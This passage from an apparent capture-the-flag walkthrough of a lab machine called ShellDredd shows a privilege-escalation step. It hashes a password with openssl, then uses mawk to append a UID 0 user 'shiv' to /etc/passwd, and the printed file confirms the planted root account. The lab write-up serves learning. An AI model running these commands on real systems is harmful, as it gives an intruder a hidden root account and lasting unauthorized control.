 Now I tried to decode the root password but it takes too much time so I decided to write my own user and password into the `/etc/passwd` file so lets do it now →

## **Adding user in /etc/passwd file :**

First we need to choose a password, salt it and hash the result. openssl to the rescue.

Flags:

- -`1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
- -`salt salt` string to use as salt. I choose the string salt
- `password` clear text password we would like to use.

```bash
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```
{: .nolineno}

Now the format of this /etc/passwd file is this →

```bash
$ password_file_in_/etc/passwd_formats
`shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash`
```
{: .nolineno}

I named the user `shiv`.

Now lets add this password string directly into the `/etc/passwd` file →

```bash
hannah@ShellDredd:/$ mawk -v LFILE=/etc/passwd 'BEGIN { print "shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash" >> LFILE }'
hannah@ShellDredd:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
hannah:x:1000:1000:hannah,,,:/home/hannah:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ftp:x:107:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
hannah@ShellDredd:/$
```
{: .nolineno}
